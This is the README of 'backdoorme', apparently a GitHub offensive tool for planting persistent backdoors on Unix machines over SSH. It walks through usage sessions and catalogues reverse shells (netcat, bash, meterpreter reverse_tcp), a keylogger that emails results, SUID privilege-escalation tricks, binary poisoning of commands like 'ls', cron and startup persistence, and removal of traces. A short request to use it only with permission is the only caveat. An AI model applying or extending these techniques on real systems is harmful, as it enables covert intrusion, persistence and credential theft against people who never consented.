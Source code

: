 # backdoorme [![Build Status](https://travis-ci.org/Kkevsterrr/backdoorme.png)](https://travis-ci.org/Kkevsterrr/backdoorme)

 Backdoorme is a powerful utility capable of backdooring Unix machines with a slew of backdoors.  Backdoorme uses a familiar metasploit interface with tremendous extensibility. 
 
 Backdoorme relies on having an existing SSH connection or credentials to the victim, through which it will transfer and deploy any backdoors.  In the future, this reliance will be removed as the tool is expanded. 
 To set up SSH, please see here: https://help.ubuntu.com/community/SSH/OpenSSH/Configuring
 
 Please only use Backdoorme with explicit permission - please don't hack without asking.  
## Usage
Backdoorme comes with a number of built-in backdoors, modules, and auxiliary modules.  Backdoors are specific components to create and deploy a specific backdoor, such as a netcat backdoor or msfvenom backdoor.  Modules can be applied to any backdoor, and are used to make backdoors more potent, stealthy, or more readily tripped. Auxiliaries are useful operations that could be performed to help persistence.

To start backdoorme, first ensure that you have the required dependencies. 
```
$ sudo apt-get install python3 python3-pip python3-tk nmap
$ cd backdoorme/
$ virtualenv --python=python3.5 env
$ source env/bin/activate
(env) $ pip install -r requirements.txt
```
Launching backdoorme:
```
$ python master.py
   ___           __      __              __  ___
  / _ )___ _____/ /_____/ /__  ___  ____/  |/  /__
 / _  / _ `/ __/  '_/ _  / _ \/ _ \/ __/ /|_/ / -_)
/____/\_,_/\__/_/\_\\_,_/\___/\___/_/ /_/  /_/\__/
Welcome to BackdoorMe, a powerful backdooring utility. Type "help" to see the list of available commands.
Type "addtarget" to set a target, and "open" to open an SSH connection to that target.
Using local IP of 10.1.0.1.
>>
```
To add a target:
``` 
>> addtarget
Target Hostname: 10.1.0.2
Username: victim
Password: password123
 + Target 1 Set!
>>
```
### Backdoors

To use a backdoor, simply run the "use" keyword. 
``` 
>> use shell/metasploit
 + Using current target 1.
 + Using Metasploit backdoor...
(msf) >>
```
From there, you can set options pertinent to the backdoor.  Run either "show options" or "help" to see a list of parameters that can be configured.  To set an option, simply use the "set" keyword. 
```
(msf) >> show options
Backdoor options:

Option		Value		Description		Required
------		-----		-----------		--------
name		initd		name of the backdoor		False
format		elf		format to write the backdoor to		True
lhost		10.1.0.1		local IP to connect back to		True
encoder		none		encoder to use for the backdoor		False
lport		4444		local port to connect back on		True
payload		linux/x86/meterpreter/reverse_tcp		payload to deploy in backdoor		True
(msf) >> set name apache
 + name => apache
(msf) >> show options
Backdoor options:

Option		Value		Description		Required
------		-----		-----------		--------
name		apache		name of the backdoor		False
...
```
As in metasploit, backdoors are organized by category. 
- Auxiliary
  - **keylogger** - Adds a keylogger to the system and gives the option to email results back to you.
  - **simplehttp** - installs python's SimpleHTTP server on the client.
  - **user** - adds a new user to the target.
  - **web** - installs an Apache Server on the client.
- Escalation
  - **setuid** - the SetUID backdoor works by setting the setuid bit on a binary while the user has root acccess, so that when that binary is later run by a user without root access, the binary is executed with root access. By default, this backdoor flips the setuid bit on nano, so that if root access is ever lost, the attacker can SSH back in as an unpriviledged user and still be able to run nano (or any chosen binary) as root. ('nano /etc/shadow'). Note that root access is initially required to deploy this escalation backdoor. 
   - **shell** - the shell backdoor is a priviledge escalation backdoor, similar to (but more specific than) it's SetUID escalation brother. It duplicates the bash shell to a hidden binary, and sets the SUID bit.  Note that root access is initially required to deploy this escalation backdoor. To use, while SSHed in as an unpriviledged user, simply run ".bash -p", and you will have root access.
- Shell
  - **bash** - uses a simple bash script to connect to a specific ip and port combination and pipe the output into bash.
  - **bash2** - a slightly different (and more reliable) version of the above bash backdoor which does not prompt for the password on the client-side.
  - **metasploit** - employs msfvenom to create a reverse_tcp binary on the target, then runs the binary to connect to a meterpreter shell.
  - **netcat** - uses netcat to pipe standard input and output to /bin/sh, giving the user an interactive shell.
  - **netcat_traditional** - utilizes netcat-traditional's -e option to create a reverse shell.
  - **perl** - a script written in perl which redirects output to bash, and renames the process to look less conspicuous.
  - **php** - runs a php backdoor which sends output to bash. It does not automatically install a web server, but instead uses the web module
  - **pupy** - uses n1nj4sec's Pupy backdoor, found at https://github.com/n1nj4sec/pupy.
  - **python** - uses a short python script to perform commands and send output back to the user.
  - **web** - ships a web server to the target, then uploads msfvenom's php reverse_tcp backdoor and connects to the host. Although this is also a php backdoor, it is not the same backdoor as the above php backdoor.
- Access
  - **remove_ssh** - removes the ssh server on the client. Often good to use at the end of a backdoorme session to remove all traces.
  - **ssh_key** - creates RSA key and copies to target for a passwordless ssh connection.
  - **ssh_port** - Adds a new port for ssh.
- Windows
  - **windows** - Uses msfvenom to create a windows backdoor.
  
### Modules
Every backdoor has the ability to have additional modules applied to it to make the backdoor more potent. To add a module, simply use the "add" keyword. 
```
(msf) >> add poison
 + Poison module added
```
Each module has additional parameters that can be customized, and if "help" is rerun, you can see or set any additional options. 
```
(msf) >> help
...
Poison module options:

Option		Value		Description		Required
------		-----		-----------		--------
name	    ls		  name of command to poison		False
location /bin		where to put poisoned files into		False
```
Currently enabled modules include:
 - Poison
  - Performs bin poisoning on the target computer - it compiles an executable to call a system utility and an existing backdoor.
  - For example, if the bin poisoning module is triggered with "ls", it would would compile and move a binary called "ls" that would run both an existing backdoor and the original "ls", thereby tripping a user to run an existing backdoor more frequently. 
 - Cron
  * Adds an existing backdoor to the root user's crontab to run with a given frequency.  
 - Web
  - Sets up a web server and places a web page which triggers the backdoor.
  - Simply visit the site with your listener open and the backdoor will begin.
 - User
  - Adds a new user to the target.
 - Startup
  - Allows for backdoors to be spawned with the bashrc and init files.
 - Whitelist
  - Whitelists an IP so that only that IP can connect to the backdoor.

### Targets
Backdoorme supports multiple different targets concurrently, organized by number when entered. The core maintains one "current" target, to which any new backdoors will default. To switch targets manually, simply add the target number after the command: "use metasploit 2" will prepare the metasploit backdoor against the second target. Run "list" to see the list of current targets, whether a connection is open or closed, and what backdoors & modules are available. 

## Contributing
Backdoorme is still very much in its infancy! Feel free to contribute to the project - simply fork it, make your changes, and issue a pull request. Have an idea for a killer backdoor, or something we could improve? Make an issue and we'll add it ASAP! Please email us at backdoormegit@gmail.com with any questions.

If you wish to add your own backdoor, follow the directions given in the backdoorme/backdoors/template.py file.

If you wish to add your own module, follow the directions given in the backdoorme/modules/template.py file.

Cheat Sheet for developers:
- Execute command on system: self.core.curtarget.ssh.exec_command("command")
- Retrieve an option: self.get_value("option")
- Execute command on system with root: self.target.ssh.exec_command("echo " + self.core.curtarget.pword + " | sudo -S command") 
